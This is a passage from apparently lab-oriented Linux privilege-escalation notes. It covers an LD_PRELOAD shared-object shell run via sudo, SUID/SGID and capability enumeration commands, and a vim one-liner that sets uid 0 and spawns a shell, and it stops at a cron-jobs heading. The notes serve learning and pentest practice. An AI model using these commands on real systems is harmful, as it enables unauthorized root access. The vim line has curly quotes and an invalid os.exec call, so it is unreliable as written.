     * Compile to a .so file:

      * `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

        * `fPIC`: Generates position-independent code.
        * `shared`: Creates a shared library.
        * `nostartfiles`: Does not use standard start files.

    * Execute the program:

      * `sudo LD_PRELOAD=/home/user/shell.so find`

---
<a id="3-suid"></a>
# 3. **SUID / SGID**

  * Allows the program to be executed with the same permissions as the Owner (remember to use the full **PATH**).

  * **SUID**

    ```bash
    find / -type f -perm -04000 -ls 2>/dev/null
    ```

  * **SGID**

    ```bash
    find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
    ```

---
<a id="4-capabilities"></a>
# 4. **Capabilities**

  * When specific privileges are granted to a user to perform tasks.

    ```bash
    getcap -r / 2>/dev/null
    ```
    
    ```bash
    find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
    ```

  * **Ex → `vim`:**

    * we can open a shell:

      `/home/karen/vim -c ‘:py3 import os; os.setuid(0); os.exec(”/bin/sh”, “sh”, “-c”, “reset; exec sh”)’`

---
<a id="5-cron-jobs"></a>
# 5. **Cron Jobs**
